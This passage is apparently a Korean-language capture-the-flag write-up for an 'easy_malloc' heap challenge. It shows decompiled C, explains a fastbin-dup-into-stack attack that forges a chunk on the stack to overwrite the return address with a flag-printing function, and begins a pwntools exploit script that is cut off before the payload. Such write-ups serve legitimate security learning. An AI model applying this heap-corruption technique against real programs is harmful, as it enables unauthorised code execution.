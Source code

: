 ```c
  if ( read(0, &buf, 33uLL) == -1 )
  {
    puts("Read fail.");
    exit(-1);
  }
  v3 = strlen(&buf);
  memcpy(*(8 * v8 - 8 + a1), &buf, v3);
  fflush(stdin);
  return puts("Data modify complete.");
}
```

플래그를 출력해주는 함수도 있는데 여기로 리턴 뛰면 될거 같다.

```c
void __noreturn sub_400986()
{
  system("/bin/cat /home/easy_malloc/flag");
  exit(-1);
}
```

처음에 스택주소도 주겠다.. malloc 포인터를 스택영역으로 조작해서 풀면 될거다. how2heap에서 나오는 fastbin dup into stack을 이용하면 된다.

이게 Fake Chunk로 쓸만한 주소를 malloc함수에서 찾을 수 있는데 스택의 rbp를 아니까 변수의 위치도 다 알 수 있다. malloc함수에서 size를 입력받아서 입력받은 만큼 할당해주는데 이 size범위가 32가 넘으면 그냥 malloc(32)해준다. 근데 여기서 size 변수 값은 그대로니까 이걸 fake chunk로 이용할 수 있었다. 그리고 뒤에는 main으로 돌아가는 return address도 존재했다.

size위치는 rbp-0x18인데 rbp-0x20에 넣는 이유는 prev_size때문에 size 위치 맞추려고 그런거다. 이제 24바이트 이후에 리턴을 cat flag 해주는 주소로 넣으면 된다.

```
rbp-0x20 prev_size 
rbp-0x18 size
data(24)
rbp+8 ret
```

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./malloc')
p = process('./malloc')
shell = 0x400986 # system("/bin/cat /home/easy_malloc/flag");
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def malloc(size,data):
	sla('>','1')
	sla(':',str(size))
	sa(':',data)

def free(idx):
	sla('>','2')
	sla(':',str(idx))

def list():
	sla('>','3')

def modify(idx,data):
	sla('>','4')
	sla(':',str(idx))
	sa(':',data)

p.recvuntil(': ')
```